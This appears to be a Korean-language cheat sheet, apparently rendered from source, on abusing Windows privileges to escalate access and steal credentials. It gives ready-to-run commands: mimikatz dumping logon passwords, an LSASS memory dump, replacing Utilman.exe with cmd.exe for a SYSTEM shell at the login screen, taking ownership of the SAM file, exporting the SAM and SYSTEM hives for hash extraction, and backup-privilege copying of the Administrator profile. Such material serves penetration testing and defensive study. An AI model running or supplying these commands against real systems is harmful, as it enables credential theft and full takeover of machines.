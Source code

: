 ### 🔓 SeDebugPrivilege 악용

```cmd
:: 1. 권한 확인
whoami /priv | findstr "SeDebugPrivilege"

:: 2. LSASS 프로세스 ID 확인
tasklist | findstr "lsass.exe"

:: 3. 프로세스 메모리 덤프 (미미카츠 등 사용)
:: 미미카츠 다운로드 및 실행
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

:: 4. 프로세스 인젝션
:: PID를 이용한 프로세스 인젝션 도구 사용
```

```powershell
# PowerShell로 SeDebugPrivilege 악용
# 1. 메모리 덤프 생성
Get-Process lsass | Out-Minidump -DumpFilePath C:\Windows\Temp\lsass.dmp

# 2. 다른 프로세스에 코드 인젝션
$proc = Get-Process -Name "winlogon"
# 인젝션 코드 실행
```

### 🛡️ SeTakeOwnershipPrivilege 악용

```cmd
:: 1. 권한 확인
whoami /priv | findstr "SeTakeOwnershipPrivilege"

:: 2. 중요 파일의 소유권 가져오기
takeown /f "C:\Windows\System32\Utilman.exe" /a
icacls "C:\Windows\System32\Utilman.exe" /grant Administrators:F

:: 3. Utilman.exe를 cmd.exe로 교체 (Sticky Keys 우회)
copy "C:\Windows\System32\cmd.exe" "C:\Windows\System32\Utilman.exe"

:: 4. 로그인 화면에서 Win+U 키로 SYSTEM 권한 cmd 실행
:: 물리적 접근이나 RDP 필요

:: 5. SAM 파일 소유권 가져오기
takeown /f "C:\Windows\System32\config\SAM" /a
icacls "C:\Windows\System32\config\SAM" /grant Administrators:F
```

### 💾 SeBackupPrivilege/SeRestorePrivilege 악용

```cmd
:: 1. 권한 확인
whoami /priv | findstr "SeBackupPrivilege\|SeRestorePrivilege"

:: 2. SAM 및 SYSTEM 레지스트리 하이브 백업
reg save HKLM\SAM C:\Windows\Temp\SAM
reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM

:: 3. 백업 파일을 이용한 해시 추출
:: SAM 파일 분석 도구 사용

:: 4. 파일 시스템 우회 (SeBackupPrivilege)
:: 모든 파일에 대한 읽기 권한
robocopy /b "C:\Users\Administrator" "C:\Windows\Temp\admin_backup" /s

:: 5. 파일 복원 (SeRestorePrivilege)
```